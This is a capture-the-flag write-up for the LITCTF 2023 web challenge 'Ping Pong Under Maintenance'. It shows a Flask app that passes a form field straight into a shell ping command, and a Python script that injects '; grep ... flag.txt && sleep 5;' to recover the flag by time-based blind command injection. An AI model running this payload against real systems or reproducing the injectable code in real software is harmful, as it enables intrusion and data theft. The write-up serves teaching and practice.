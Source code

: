 ```yaml
---
title: 2023 LITCTF - Ping Pong Under Maintenance
author: thanguyen165
date: 2023-08-08 00:00:00 +0700
categories: [Write-ups, 2023_LITCTF]
tags: [Web Exploitation, OS command injection]
---
```


* 90 solves / 158 points
* Author: eyangch

## Description

> The website seems to be under maintenance.

### Attached

[ping-pong-under-maintenance.zip](http://34.27.167.72/dl/?web%2FPing+Pong_+Under+Maintenance%2Fping-pong-under-maintenance.zip=)

```py
from flask import Flask, render_template, redirect, request
import os

app = Flask(__name__)

@app.route('/', methods = ['GET','POST'])
def index():
    output = None
    if request.method == 'POST':
        hostname = request.form['hostname']
        cmd = "ping -c 3 " + hostname
        output = os.popen(cmd).read()

    return render_template('index.html', output='The service is currently under maintainence and we have disabled outbound connections as a result.')

```
{: file="pingpong.py" }

## Analyzation

In this challenge, we cannot see the output anymore. So we use time-based blind injection.

Use command
```
grep "LIT" flag.txt && sleep 5;
```

- If ```grep "LIT" flag.txt``` is correct, aka string ```"LIT"``` is in ```flag.txt``` content, the second command ```sleep 5``` will be executed, and it takes more time to return response.

## Solution

```py
import requests, string, time

ALPHABET = "}_" + string.ascii_lowercase + string.digits + string.ascii_uppercase
URL_PINGPONGUnderMaintenance = 'http://34.130.180.82:53558/' # change this link

HEADERS={
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5'
}

flag = "LITCTF{"
TEMPLATE_PAYLOAD = '; grep "{}" flag.txt && sleep 5;'

while flag[-1] != '}':
    for character in ALPHABET:
        print("char: %s" % character) # log the process.
        flag_tmp = flag + str(character)

        START_TIME = time.time()
        respond = requests.post(URL_PINGPONGUnderMaintenance, headers=HEADERS, data={'hostname': TEMPLATE_PAYLOAD.format(flag_tmp)})

        if time.time() - START_TIME > 5:
            flag = flag_tmp
            print("true: {}".format(flag)) # log the process.
            break

print(flag)

```
{: file="solution.py" }

The flag is
```
LITCTF{c4refu1_fr}
```